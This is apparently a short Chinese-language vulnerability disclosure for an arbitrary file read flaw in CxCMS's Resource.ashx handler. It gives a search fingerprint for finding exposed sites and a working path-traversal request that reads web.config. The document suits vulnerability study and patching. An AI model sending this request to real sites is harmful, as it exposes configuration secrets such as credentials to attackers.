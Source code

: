 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## 网络测绘

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"

![image-20220518144245685](images/202205181442728.png)

验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![image-20220518144331101](images/202205181443193.png)